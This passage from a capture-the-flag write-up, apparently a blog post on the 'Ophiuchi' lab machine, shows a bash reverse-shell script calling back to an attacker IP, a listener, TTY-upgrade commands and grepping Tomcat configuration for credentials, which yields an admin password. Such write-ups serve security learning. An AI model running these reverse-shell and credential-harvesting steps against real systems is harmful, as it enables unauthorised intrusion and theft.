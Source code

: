 ```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.17.239/9001 0>&1
```

Finally re-set up our `python` server and additionally add in a new `ncat -lvp 9001` to catch the reverse shell. Re-send our initial payload to see the server sending requests for `META-INF/services/javax.script.ScriptEngineFactory`, then `rev.sh`. We should have a revshell now - success!

![Cereal Killer from the movie Hackers.](/assets/images/ophiuchi/cereal_killah.gif)

Unfortunately for us, we _still_ don't have a user account. That's our first priority as we establish our privileges in this system so that we don't get immediately kicked out if we jack up our reverse shell 😉 well, it's our first priority _after_ we do a [TTY upgrade](https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html):

1. `python3 -c 'import pty;pty.spawn("/bin/bash");'`
2. `stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'`
3. `stty raw -echo; fg`
4. `stty rows ROWS cols COLS`
5. `export TERM=xterm-256color`
6. `exec /bin/bash`

All this does is make our terminal nicer with tab-autocomplete and the things we expect from a native shell. Now to upgrade...

If you've spent any amount of time around Tomcat, you know that there's potential for credentials _right where we landed_ or close by at least. I started grepping for passwords and eventually got lucky with a hit on `/opt/tomcat/conf/tomcat-users.xml`:

![Discovering credentials using grep.](/assets/images/ophiuchi/creds_found.png)

With that, we can now SSH in as `admin :: whythereisalimit`. Finally!
